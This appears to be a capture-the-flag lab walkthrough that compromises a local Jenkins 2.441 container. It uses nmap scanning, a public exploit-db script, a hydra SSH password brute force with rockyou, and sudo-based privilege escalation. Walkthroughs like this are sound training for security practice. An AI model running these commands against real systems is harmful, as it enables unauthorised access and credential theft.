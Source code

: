 ![image](https://github.com/user-attachments/assets/0cb3d581-c87a-416d-b473-93d195490f87)


```bash
ping -c 1 172.17.0.2
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
nmap -sCV -p22,80 172.17.0.2 -oN targeted
```
![image](https://github.com/user-attachments/assets/b92223b9-e47a-47c2-a3cb-d60f3daa2a97)

## **We have a web page running on port 8080**

![image](https://github.com/user-attachments/assets/b723c382-958a-48ed-8433-c8e350fc7320)

## **Researching the web**
```bash
whatweb http://172.17.0.2:8080
```
![image](https://github.com/user-attachments/assets/01227e0c-8480-4b17-8c5c-6cab5025b306)

## **We search for possible vulnerabilities and exploits**
```bash
searchsploit jenkins 2.441
```
![image](https://github.com/user-attachments/assets/9b1413f6-8369-4d9d-b86e-4f956da458fa)

## **We bring to our working folder for further exploitation**
```bash
❯ locate java/webapps/51993.py
/usr/share/exploitdb/exploits/java/webapps/51993.py
❯ mv /usr/share/exploitdb/exploits/java/webapps/51993.py .
❯ ls
 51993.py
```
## **we run exploit**
``` bash
python3 51993.py -u http://172.17.0.2:8080
```
![image](https://github.com/user-attachments/assets/fa4e8b44-0c3c-4a55-822c-ab9c1a462b2e)

## **We will apply a brute force attack with hydra on port 22 with the user that we find**
```bash
hydra -l bobby -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
![image](https://github.com/user-attachments/assets/3499650a-5ae9-43ca-ad4c-c89cb8ae7931)

## **Now we will log in via ssh**
```bash
ssh bobby@172.17.0.2
```
![image](https://github.com/user-attachments/assets/2293eb00-7d0e-4e22-8dfd-a3b1485fe7fe)

## **Once inside it's time to escalate privileges**
```bash
sudo -l
```
![image](https://github.com/user-attachments/assets/682b3ea1-0c6c-42f1-99d1-1e630f08d146)
![image](https://github.com/user-attachments/assets/33ce0d41-31af-49dd-8980-8d552bd1441b)

## **Treatment of tty**
```bash
script /dev/null -c bash
"CTRL+Z"
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```



